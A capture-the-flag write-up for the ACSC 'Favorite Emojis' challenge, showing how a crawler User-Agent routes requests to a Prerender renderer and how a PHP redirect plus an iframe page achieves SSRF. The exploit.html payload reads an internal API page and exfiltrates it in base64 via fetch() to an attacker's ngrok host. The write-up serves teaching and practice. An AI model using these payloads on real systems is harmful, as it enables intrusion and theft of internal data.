 ```yaml
---
description: Prerender dynamic rendering leads to SSRF
---
```


# Favorite Emojis

## Description

🎈





&#x20;                               🏃

`http://favorite-emojis.chal.acsc.asia:5000`

{% file src="../../.gitbook/assets/favorite-emojis.tar.gz_88c58c7d867bcad99c40a2013cc77a58.gz" %}
Challenge Files
{% endfile %}

## Solution

The server uses something called dynamic rendering, which renders JavaScript on the server-side before serving web crawlers. This is meant to improve SEO.

If we look at the Nginx configuration, we can see that as long as we set our HTTP `User-Agent` header to one of the web crawlers, e.g.`googlebot`, the request is re-written and forwarded to the pre-renderer at `http://renderer:3000`.

```
location / {
    try_files $uri @prerender;
}

...

location @prerender {
    proxy_set_header X-Prerender-Token YOUR_TOKEN;
    
    set $prerender 0;
    if ($http_user_agent ~* "googlebot|bingbot|yandex|baiduspider|twitterbot|facebookexternalhit|rogerbot|linkedinbot|embedly|quora link preview|showyoubot|outbrain|pinterest\/0\.|pinterestbot|slackbot|vkShare|W3C_Validator|whatsapp") {
        set $prerender 1;
    }
    if ($args ~ "_escaped_fragment_") {
        set $prerender 1;
    }
    if ($http_user_agent ~ "Prerender") {
        set $prerender 0;
    }
    if ($uri ~* "\.(js|css|xml|less|png|jpg|jpeg|gif|pdf|doc|txt|ico|rss|zip|mp3|rar|exe|wmv|doc|avi|ppt|mpg|mpeg|tif|wav|mov|psd|ai|xls|mp4|m4a|swf|dat|dmg|iso|flv|m4v|torrent|ttf|woff|svg|eot)") {
        set $prerender 0;
    }

    if ($prerender = 1) {
        rewrite .* /$scheme://$host$request_uri? break;
        proxy_pass http://renderer:3000;
    }
    if ($prerender = 0) {
        rewrite .* /index.html break;
    }
}
```

The goal is to get to `http://api:8000/`.

```python
@app.route("/", methods=["GET"])
def root():
    return FLAG
```

If the API server was hosted on port 80 instead, there would be no need for any exploitation - the need for subsequent exploitation stems from the fact that `$host` will strip the port number in the HTTP `Host` header, preventing us from accessing the API server at port 8000 directly.

I came across [this post](https://r2c.dev/blog/2020/exploiting-dynamic-rendering-engines-to-take-control-of-web-apps/) which gave me the inspiration for the exploit. We know that the server uses [Prerender](https://github.com/tvanro/prerender-alpine) to handle these requests. Since Prerender uses Chrome to render JavaScript, we can perform XSS within the renderer.

Set the host header so that the renderer visits our attacker-controlled site. From there, we can redirect the browser using the `Location` header.

`redirect.php`:

```php
<?php 
    header("Location: http://localhost:3000/render?url=http://localhost:3000/render?url=http://0db7-115-66-195-39.ngrok.io/exploit.html");
?>
```

From the user's perspective, the Nginx server will return the 302 redirect, instead of the contents of the redirected site. However, the renderer's browser will still follow the redirect. It will then be redirected to our second exploit page:

`exploit.html`:

```markup
<html>
    <body>
        <iframe id="iframe" src="http://localhost:3000/render?url=http://api:8000/" onload='fetch("http://0db7-115-66-195-39.ngrok.io/?"+btoa(document.getElementById("iframe").contentWindow.document.documentElement.innerHTML));'></iframe>
    </body>
</html>
```

Notice that the browser is currently on `http://localhost:3000`, viewing the pre-rendered `exploit.html`. Since both the current site and the iframe's source are `http://localhost:3000`, this bypasses SOP and allows us to access the iframe's contents through the `onload` handler.

This gives us the `http://api:8000/` contents:

```
[Sat Sep 18 19:36:42 2021] 127.0.0.1:49207 [404]: /?PGhlYWQ+PC9oZWFkPjxib2R5PkFDU0N7c2hhcmtzX2FyZV9hbHdheXNfaHVuZ3J5fTwvYm9keT4= - No such file or directory
```

Which decodes to

```markup
<head></head><body>ACSC{sharks_are_always_hungry}</body>
```
